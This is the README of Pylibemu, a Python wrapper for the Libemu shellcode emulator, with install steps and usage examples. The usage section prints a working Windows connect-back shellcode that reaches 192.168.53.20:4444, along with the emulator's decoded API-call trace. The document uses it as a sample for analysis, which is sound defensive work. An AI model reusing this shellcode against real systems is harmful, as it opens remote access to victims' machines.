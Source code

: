 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

$ sudo pip install pylibemu

or alternatively

$ python setup.py build
$ sudo python setup.py install


## Usage


buffer@alnitak ~ $ python
Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
[GCC 4.4.4] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pylibemu
>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
>>> emulator = pylibemu.Emulator()
>>> offset = emulator.shellcode_getpc_test(shellcode)
>>> offset
4
>>> emulator.prepare(shellcode, offset)
>>> emulator.test()
0
>>> print emulator.emu_profile_output
HMODULE LoadLibraryA (
     LPCTSTR lpFileName = 0x0012fe90 => 
           = "ws2_32";
) = 0x71a10000;
int WSAStartup (
     WORD wVersionRequested = 2;
     LPWSADATA lpWSAData = 1244272;
) =  0;
SOCKET WSASocket (
     int af = 2;
     int type = 1;
     int protocol = 0;
     LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     GROUP g = 0;
     DWORD dwFlags = 0;
) =  66;
int connect (
     SOCKET s = 66;
     struct sockaddr_in * name = 0x0012fe88 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
) =  0;
int recv (
     SOCKET s = 66;
     char * buf = 0x0012fe88 => 
         none;
     int len = 3072;
     int flags = 0;
) =  3072;

>>> emulator.emu_profile_truncated
False


The new Emulator method `run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 

>>> emulator = pylibemu.Emulator()
>>> emulator.run(shellcode)
0
>>> emulator.offset
4
>>> print emulator.emu_profile_output
HMODULE LoadLibraryA (
     LPCTSTR = 0x01a3f990 => 
           = "ws2_32";
) =  1906376704;
int WSAStartup (
     WORD wVersionRequested = 2;
     LPWSADATA lpWSAData = 1244272;
) =  0;
SOCKET WSASocket (
     int af = 2;
     int type = 1;
     int protocol = 0;
     LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     GROUP g = 0;
     DWORD dwFlags = 0;
) =  66;
int connect (
     SOCKET s = 66;
     struct sockaddr_in * name = 0x0012fe88 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
) =  0;
int recv (
     SOCKET s = 66;
     char * = 0x01a40870 => 
         none;
     int len = 3072;
     int flags = 0;
) =  3072;

>>> emulator.emu_profile_truncated
False


The Emulator accepts the optional parameter `output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

>>> emulator = pylibemu.Emulator(1024)

>>> emulator = pylibemu.Emulator()
>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute `emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator `set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2015 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.


